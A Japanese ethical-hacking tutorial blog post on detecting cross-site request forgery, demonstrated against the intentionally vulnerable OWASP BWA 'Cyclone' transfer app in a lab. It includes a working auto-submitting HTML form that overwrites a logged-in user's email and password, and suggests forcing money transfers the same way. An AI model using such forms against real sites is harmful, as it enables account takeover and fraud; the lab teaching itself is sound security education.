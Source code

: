 # 脆弱性を見つけよう クロスサイトリクエストフォージェリ編

<p class="modest" align="left">Feb 6, 2017</p>

---

第6回目はクロスサイトリクエストフォージェリの脆弱性を取り上げます。

クロスサイトリクエストフォージェリ（CSRF）とは、サイト上の処理をサーバー側で受け付ける際に、サイト利用者からの正規のリクエストであるか検証していなかった場合、攻撃者に誘導された利用者が意図しない処理を実行させられてしまう問題です。

## 検出方法

CSRFの対象になる機能は、ブログへのコメント投稿やショッピングサイトでの決済、アカウント情報の更新など、Webアプリケーションのリソースに変化を与える機能です。ここではサイト利用者にとって重要になる、ログイン後の機能を対象とします。

CSRFの脆弱性を見つけるには以下の手順でサイトの挙動を確認します。

1. ログイン後にリソースに変化を与える機能があるか
2. 機能の実行時に次のような検証がないか、または検証を回避できるか
   * リクエストに付与された推測困難なトークンによる検証
   * リクエストのRefererヘッダの値による検証
   * パスワードの再入力
3. 罠サイトからのリクエストにより処理を強制できるか

今回はOWASP BWAの「Cyclone」という架空の送金サービスを対象に調査を行ないます。まずはアカウントを作成してログインしてみましょう。

<p align="center"><img src="/assets/2017/intro_to_ethical_hacker_6/e6_figure1.png" alt="figure1"></p>
<p class="modest" align="center">図1. 架空の送金サービス「Cyclone」</p>

Cycloneにログインするとアカウント情報の更新機能を利用できます。更新時のリクエストにはCSRF対策用のトークンらしき値が付与されています。

<p align="center"><img src="/assets/2017/intro_to_ethical_hacker_6/e6_figure2.png" alt="figure2"></p>
<p class="modest" align="center">図2. アカウント情報を更新する際のリクエスト</p>

このトークンはアクセスするたびに変化します。規則性が見られないので生成される値の推測もできません。しかし、トークンの一部を書き換えたり消したり、パラメータごと削除しても処理が完了しました。どうやらサーバー側でトークンを検証していないようです。Refererヘッダを送らなくても処理が完了したので、この機能にはCSRFの脆弱性がありそうです。

## 実証

CSRFにより処理を強制きることを、罠サイトを作って確認しましょう。以下のようなHTMLのサイトに利用者をアクセスさせることで、アカウント情報の更新リクエストを強制できます。

```html
<form action="http://192.168.161.128/cyclone/users/101" method="POST">
    <input type="hidden" name="_method" value="put" />
    <input type="hidden" name="user[name]" value="hacker" />
    <input type="hidden" name="user[email]" value="hacker@example.com" />
    <input type="hidden" name="user[password]" value="hack123" />
    <input type="hidden" name="user[password_confirmation]" value="hack123" />
    <input type="hidden" name="user[profile_statement]" value="Hacked!" />
</form>
<script>document.forms[0].submit()</script>
```

実際の攻撃ではこのようなHTMLを攻撃者のWebサーバーに配置して、ログイン済みの利用者にアクセスさせます。攻撃を再現するために、このHTMLファイルをCycloneにログインしているブラウザで読み込みます。

<p align="center"><img src="/assets/2017/intro_to_ethical_hacker_6/e6_figure3.png" alt="figure3"></p>
<p class="modest" align="center">図3. ファイルを読み込むと更新リクエストが送信される</p>

HTMLファイルを読み込むと自動的にリクエストが送信されました。アカウント情報も更新されると思います。攻撃者の思い通りにパスワードが更新されるので、アカウントの乗っ取りに発展するかもしれません。重要情報の更新機能にCSRFの脆弱性があると被害の影響は大きくなります。

<br>

Cycloneには他にもCSRFの対象になる機能があります。もし送金機能にCSRFの脆弱性があれば、攻撃者の口座へ勝手に送金させる、なんてこともできそうです。脆弱性がないか確認してみてください。また、ファイルをアップロードする機能もあります。CSRFでファイルをアップロードさせたい場合は、[XMLHttpRequest](https://developer.mozilla.org/ja/docs/Web/API/XMLHttpRequest)を用いてリクエストを送信するような罠サイトを作ってみてください。

次回も一つ脆弱性を取り上げ、その見つけ方を紹介します。
